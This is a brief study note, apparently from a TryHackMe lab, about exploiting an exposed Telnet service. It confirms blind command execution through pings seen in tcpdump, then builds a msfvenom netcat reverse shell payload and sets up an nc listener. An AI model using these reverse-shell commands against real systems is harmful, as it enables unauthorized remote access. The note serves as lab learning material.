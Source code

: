 Telnet is similar to [[SSH - Secure Shell]] but it's not encrypted.
It is used for remote connection to a machine to execute commands.

It operates via [[TCP]] on port 23.

If you connect to a telnet and try to run commands, you may see no output.
Try running this.
```shell
.RUN ping [your_ip]
```
But first setup a tcpdump on your end.
```shell
sudo tcpdump ip poroto \\icmp -i tun0
# this listnens for icmp (ping) on network interface tun0
# which in this case is THM vpn tunnel.
```

Once you see that the pings are coming thru on tcp dump.
You know that you can run commands.

With that knowledge, you can craft a netcat reverse shell via msfvenom.
A payload maker if you will.
```shell
msfvenom -p cmd/unix/reverse_netcat lhost=[your_ip] lport=4444 -R
```
msfvenom documentation: https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

The command msfvenom generates can be ran with .RUN and don't forget the listener.
nc -nvlp 4444

[[Getting the shell]] read more on reverse shell.